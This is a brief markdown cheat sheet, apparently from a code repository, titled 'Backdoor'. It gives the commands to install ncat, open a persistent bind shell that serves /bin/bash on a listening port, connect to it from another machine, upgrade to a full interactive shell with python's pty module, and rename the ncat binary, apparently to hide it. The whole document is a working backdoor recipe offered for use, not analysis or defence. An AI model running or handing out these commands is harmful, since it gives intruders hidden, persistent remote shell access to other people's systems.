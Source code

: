 # Backdoor 
## Install ncat on the local box
### Apt-get (Install)
```
sudo apt-get update
sudo apt-get -y install ncat
```
### Apt (Install)
```
sudo apt update
sudo apt -y install ncat
```

### Aptitude (Install)
```
sudo aptitude update
sudo aptitude -y install ncat
```

## Local box that will be backdoored into 
```
ncat -k -nvlp <port> -e "/bin/bash" --allow <ip's go here>
```

## Box that will backdoor into local machine 
```
ncat -nv <ip address of local box> <port>
```

# Getting a complete shell!
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# Changing the ncat binary
### Rename the binary of ncat 
```
which ncat
```
```
mv /usr/bin/ncat /usr/bin/<new name>
```


### If ncat needs to be deleated
```
sudo apt-get -y autoremove --purge ncat
```


